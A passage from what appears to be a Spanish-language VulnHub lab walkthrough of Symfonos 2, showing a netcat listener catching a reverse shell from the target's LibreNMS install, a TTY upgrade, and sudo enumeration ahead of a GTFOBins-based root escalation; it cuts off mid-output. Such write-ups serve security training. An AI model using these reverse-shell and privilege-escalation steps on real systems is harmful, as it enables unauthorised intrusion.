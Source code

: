 ![nms1](/assets/img/commons/vulnhub/symfonos2/nms1.png){: .center-image }

Nos ponemos en escucha y lanzamos la prueba de SNMP.

![run](/assets/img/commons/vulnhub/symfonos2/run.png){: .center-image }

Somos el usuario `cronus`{: .filepath}, tenemos permiso de root sobre `mysql`, buscamos por gtfobins y ejecutamos el comando, somos root y listamos la flag.

```bash
❯ sudo rlwrap nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.27] 47664
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
cronus@symfonos2:/opt/librenms/html$

cronus@symfonos2:/opt/librenms/html$ sudo -l
sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
```